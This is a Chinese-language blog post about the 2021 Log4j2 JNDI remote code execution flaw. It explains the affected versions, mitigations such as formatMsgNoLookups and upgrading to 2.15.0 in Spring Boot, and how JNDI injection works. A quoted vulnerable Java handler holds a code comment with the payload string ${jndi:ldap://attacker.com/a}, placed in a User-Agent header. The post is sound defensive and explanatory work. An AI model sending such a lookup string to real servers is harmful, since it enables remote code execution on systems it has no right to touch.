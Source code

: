 

长话短说吧。

相信大家已经被 Log4j2 的重大漏洞刷屏了，估计有不少小伙伴此时此刻已经累趴下了。很不幸，我的小老弟小二的 Spring Boot 项目中恰好用的就是 Log4j2，版本特喵的还是 2.14.1，在这次漏洞波及的版本范围之内。

第一时间从网上得知这个漏洞的消息后，小二吓尿了。赶紧跑过来问老王怎么解决。

老王先是给小二提供了一些临时性的建议，比如说：

```
JVM 参数添加 -Dlog4j2.formatMsgNoLookups=true
log4j2.formatMsgNoLookups=True
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为true
```

并且老王也在时刻的关注着 Log4j2 的官网和 Spring Boot GitHub 仓库的最新消息。

Java 后端开发的小伙伴应该都知道，Log4j、SLF4J、Logback 这 3 个日志组件是一个爹——Ceki Gulcu，但 Log4j 2 却是例外，它是 Apache 基金会的产品。

所以这波超级高危漏洞的锅必须得由 Apache 来背。并且波及范围非常广，已知受影响的应用程序和组件有：

- Spring-boot-strater-log4j2
- Apache Solr
- Apache Flink
- Apache Druid

并且只要是在 Log4j 2.x <= 2.14.1 之间的版本，都将受到影响——注定被载入史册的一波 bug 啊。

目前，Log4j2 的官网已经发布了 Log4j2 2.15.0 正式版，来解决此次漏洞。

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-01.png)

那随着 Log4j2 2.15.0 正式版的发布，Spring Boot 的 GitHub 仓库提的这些关于 Log4j2 的 issue 都已经处于关闭状态了。

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-02.png)

看到这些消息后，老王紧张的情绪一下子就缓解了下来，就像吃了一颗定心丸，赶紧去通知小二不用再提心吊胆了，直接一行代码搞定。

```
<properties>
    <log4j2.version>2.15.0</log4j2.version>
</properties>
```

详情可参照 Spring Boot 官方这篇博客：

>https://spring.io/blog/2021/12/10/log4j2-vulnerability-and-spring-boot

Gradle 构建的项目也有解决方案。

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-03.png)

问题是解决了，不过老王没闲着。他从 Log4j2 官网公布的最新消息中琢磨出，本次远程代码执行漏洞正是由于组件存在 Java JNDI 注入漏洞：**当程序将用户输入的数据记录到日志时，攻击者通过构造特殊请求，来触发 Apache Log4j2 中的远程代码执行漏洞，从而利用此漏洞在目标服务器上执行任意代码**。

那肯定会有小伙伴在好奇 JNDI 是什么东东？来看一下维基百科的解释。

>Java命名和目录接口（Java Naming and Directory Interface，缩写JNDI），是Java的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象。

利用下面这段代码，攻击者可以通过JNDI来执行LDAP协议来注入一些非法的可执行代码。

```java
public class VulnerableLog4jExampleHandler implements HttpHandler {
    static Logger log = Logger.getLogger(log4jExample.class.getName());
    /**
     * A simple HTTP endpoint that reads the request's User Agent and logs it back.
     *
     * This is basically pseudo-code to explain the vulnerability, and not a full example.
     *
     * @param he HTTP Request Object
     */
    public void handle(HttpExchange he) throws IOException {
        String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
        log.info("Request User Agent:" + userAgent);
        String response = "<h1>Hello There, " + userAgent + "!</h1>";
        he.sendResponseHeaders(200, response.length());
        OutputStream os = he.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
}
```

具体的攻击手段可以参考这里：

>https://github.com/apache/pulsar/issues/13232

下图是程序猿阿朗画的简单的攻击链路步骤图。

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-04.png)

感兴趣的小伙伴可以在本地复现一下，但**千万不要不当利用**哦！

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-05.png)

再次提醒大家一下，排查自己的项目是否引入了 Apache log4j-core Jar 包。

![](https://cdn.jsdelivr.net/gh/itwanger/toBeBetterJavaer/images/shigu/log4j2-06.png)

如果存在依赖引入，且在受影响版本范围内，请升级到 Apache Log4j2  2.15.0 版本，目前已经 release。



